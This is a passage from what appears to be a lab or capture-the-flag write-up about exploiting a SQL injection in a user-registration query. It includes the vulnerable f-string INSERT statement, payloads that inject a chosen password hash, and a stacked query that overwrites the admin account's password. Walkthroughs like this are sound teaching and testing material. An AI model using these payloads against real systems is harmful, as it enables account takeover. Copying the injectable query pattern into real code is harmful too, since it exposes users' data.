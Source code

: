 First I want to test that the SQL injection its apply correctly, so I am goint to try to insert a new record only with the username data ignoring the hashed:

```python
query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
```

Test  username payload , if work i could connect wiht `magor:test` 

> In order to work I need insert a valid hash so i import the `generate_password_hash()` function and create the hash

```python
>>> hash = generate_password_hash('test')
>>> hash
'$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W'
```

So, the payload to username would be:
```sql
kil", "$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W") -- -
```

```json
{"username":"kil\", \"$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W\") -- -","password":"kil"}
```

I test the payload intereceptin the register request and use the Repeater BurpSuit community edition and it works!

![3-burpsuit-test.png](./static/3-burpsuit-test.png)

> Note that we ingnore the password parameter using the comment `-- -` at the end of username.

Try to test if bacth querys also work

```sql
ki", "$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W"); UPDATE users  
SET password = '$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W'
WHERE username = 'admin'; commit -- -
```
